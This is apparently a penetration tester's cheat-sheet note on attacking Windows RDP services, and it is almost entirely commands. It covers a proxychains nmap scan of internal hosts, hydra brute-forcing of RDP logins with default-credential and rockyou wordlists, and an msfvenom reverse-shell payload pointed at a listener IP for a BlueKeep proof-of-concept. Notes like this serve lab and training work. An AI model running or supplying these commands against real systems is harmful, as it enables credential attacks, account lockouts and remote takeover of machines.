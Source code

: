#service #login
<% tp.file.rename("1_RDP_3389")%>
☑️
> Auch ms-wbt-server

## Check for machines that have it enabled
```bash
proxychains nmap -Pn -sT -p3389 $(cat /etc/hosts | grep 172 | cut -f 1 | tr '\n' ' ')
```
## Bruteforce default credentials
```
hydra -C /usr/share/seclists/Passwords/Default-Credentials/windows-betterdefaultpasslist.txt rdp://$hip -vV -t 1 -I -s 3389
```
	CAREFUL, likely to lock accounts!
Or for a given user:
```bash
hydra -l $user -P /usr/share/wordlists/rockyou30.txt rdp://$hip -V -t 4 -I -s 3389
```
## Connect to RDP
```bash
connect-windows $hip [$user] [$password]
```

## BlueKeep
<= Windows 7 or <= Windows Server 2008
Payload:
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.206 LPORT=4545 -f py
```
Integrate it at `win7_32_poc.py` where it states "`# replace buf with your shellcode`"
> Currently still fails, a python dependency issue